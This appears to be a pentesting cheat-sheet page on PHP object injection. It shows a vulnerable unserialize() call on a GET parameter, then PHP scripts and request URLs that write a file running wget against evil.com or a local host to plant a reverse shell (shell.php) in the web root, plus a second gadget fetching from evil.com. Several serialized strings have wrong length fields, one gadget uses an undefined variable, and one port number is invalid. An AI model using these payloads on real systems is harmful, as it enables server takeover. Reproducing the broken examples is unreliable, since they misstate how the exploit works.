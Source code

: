 ```yaml
---
title: PHP Object Injection
description: PHP Object Injection is a type of vulnerability that can occur when untrusted user input is deserialized in a PHP application.
tags:
    - Web
refs:
    - https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection
    - https://github.com/R0B1NL1N/PayloadsAllTheThings/blob/master/PHP%20serialization/README.md
date: 2023-03-09
draft: false
---
```


## Investigation

Below is an example of an **`index.php`** in PHP web application.

```php
<?php

class Example {
    public $file = 'example.txt';
    public $msg = 'Hello World';
	
    public function SomeFunc() {
        // Some code ...
    }

    public function __destruct() {
        file_put_contents(__DIR__ . '/' . $this->file,$this->msg,FILE_APPEND);
    }
}

$data = unserialize($_GET['data']);

// Some code ...

?>
```

This code adds a text file named **`example.txt`**, that contains **"Hello World"** strings, into the web root directory.  If the **"data"** parameter (**`/?data=...`**) is given, this value will be unserialized by **`unserialize()`** method.  
In short, we can inject the serialized malicious code to the value of the **`data`** parameter.

Then access to **`https://example.com/?data=<serialized_code_here>`** then our arbitrary code will be executed.  
For example,

```sh
http://example.com/?data=O:8:"Example":1:{s:10:"msg";s:15:"<?php system('wget http://evil.com:8000/shell.php -O shell.php'); ?>";}
```

<br />

## Exploitation 1

Assumes the above situation (**”index.php”** in the **“Investigation”** section).  
We generate the serialized data and inject it to the **“data”** parameter.

### 1. Generate a Serialized Malicious Object

Create a malicious **“Example”** class contains **`__destruct()`** method in PHP.  
This script add the **“download.php”**, which downloads a PHP reverse shell script, into the web root directory. Then prints the URL encoded serialized **“Example”** class.

Replace **`<local-ip>`** with your local ip address.

```php
<?php

class Example {
    public $file = 'download.php';
    public $msg = "<?php system('wget http://<local-ip>:8000/shell.php -O shell.php'); ?>";

    public function SomeFunc() {
        // Some code ...
    }

    public function __destruct() {
        file_put_contents(__DIR__ . '/' . $this->file,$this->msg,FILE_APPEND);
    }

}

print urlencode(serialize(new Example));
?>
```

Then generate a deserialized data.

```bash
php generate.php
```

Copy the output data.

### 2. Download a Reverse Shell Script.
    
In local machine, start local web server where the PHP reverse shell script located.

```php
python3 -m http.server 80000
```

Now access to `https://example.com/?data=<serialized_data_here>`.  

```txt
http://example.com/?data=O:8:"Example":1:{s:10:"msg";s:15:"<?php system('wget http://evil.com:8000/shell.php -O shell.php'); ?>";}
```

By this, our PHP reverse shell script is download to the target web root (e.g. `https://example.com/shell.php`).

<br />

## Exploitation 2

First off, prepare the reverse shell script (**`shell.php`**) in local machine and start web server.  
Then create a maliciou payload as follow.

```php
<?php

class Example {
    public $tmp = "http://evil.com/shell.php";
    public $imgPath = "./shell.php";

    public function __wakeup() {
        $f = fopen($this->imgPath, "w");
        fwrite($f, file_get_contents($tmp));
        fclose($f);
    }
}

$payload = base64_encode(serialize(new Example));
echo $payload;
?>
```

Now run it in terminal.

```sh
php payload.php
```

Copy the output and paste it to where the payload affects.

<br />

## Automation

[PHPGGC](https://github.com/ambionics/phpggc) is a library of PHP **`unserialize()`** payloads along with a tool to generate them.

```bash
# List all gadeget chains
phpggc -l
```